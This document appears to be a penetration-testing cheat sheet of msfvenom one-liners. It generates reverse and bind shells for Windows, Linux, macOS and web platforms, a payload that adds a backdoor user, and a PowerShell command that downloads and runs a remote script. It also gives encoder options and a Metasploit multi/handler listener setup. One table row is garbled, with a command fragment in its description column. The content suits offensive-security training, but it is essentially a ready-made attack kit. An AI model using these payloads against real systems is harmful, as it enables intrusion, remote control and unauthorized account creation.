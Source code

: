 Single Page Cheatsheet for common MSF Venom One Liners  
Available in PDF, DOCX and Markdown format!
*PDF and DOCX versions contain the payload size in bytes and a few more commands.*


| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     | Description                                      |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| msfvenom -l   payloads                                                                                                                                                                                                    | List available payloads                          |
| msfvenom -p PAYLOAD --list-options                                                                                                                                                                                        | List payload options                             |
| msfvenom -p   PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT   LHOST=IP                                                                                                                                                     | Payload Encoding                                 |
| msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                                                                  | Linux Meterpreter  reverse shell x86 multi stage |
| msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                                                                     | Linux Meterpreter  bind shell x86 multi stage    |
| msfvenom -p linux/x64/shell_bind_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                             | Linux bind shell x64 single stage                |
| msfvenom -p linux/x64/shell_reverse_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                          | Linux reverse shell x64 single stage             |
| msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                                                                    | Windows Meterpreter reverse shell                |
| msfvenom -p   windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe | Windows Meterpreter http reverse shell           |
| msfvenom -p   windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe >   shell.exe                                                                                                                                      | Windows Meterpreter bind shell                   |
| msfvenom -p   windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                                                                          | Windows CMD Multi Stage                          |
| msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT   -f exe >  shell.exe                                                                                                                                           | Windows CMD Single Stage                         |
| msfvenom -p   windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                                                              | Windows add user                                 |
| msfvenom -p   osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho >   shell.macho                                                                                                                                      | Mac Reverse Shell                                |
| msfvenom -p   osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho  >  shell.macho                                                                                                                                         | Mac Bind shell                                   |
| msfvenom -p   cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw >   shell.py                                                                                                                                             | Python Shell                                     |
| msfvenom -p   cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw >   shell.sh                                                                                                                                               | BASH Shell                                       |
| msfvenom -p   cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw >   shell.pl                                                                                                                                               | PERL Shell                                       |
| msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp >   shell.asp                                                                                                                                    | ASP Meterpreter shell                            |
| msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.jsp                                                                                                                                         | JSP Shell                                        |
| msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war >   shell.war                                                                                                                                         | WAR Shell                                        |
| msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.php   cat shell.php                                                                                                                        | pbcopy && echo '?php '                           |
| msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw  >  phpreverseshell.php                                                                                                                                          | Php Reverse Shell                                |
| msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\""   -f python                                                            | Windows Exec Nishang Powershell in   python      |
| msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                                                                   | Bad characters shikata_ga_nai                    |
| msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                                                                      | Bad characters fnstenv_mov                       |

# Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  
```
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```
The -j option is to keep all the connected session in the background.  

```shell
msfconsole -x 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 10.10.14.31; set lport 9443; set ExitOnSession false;'
```

# References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675  
https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/  
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/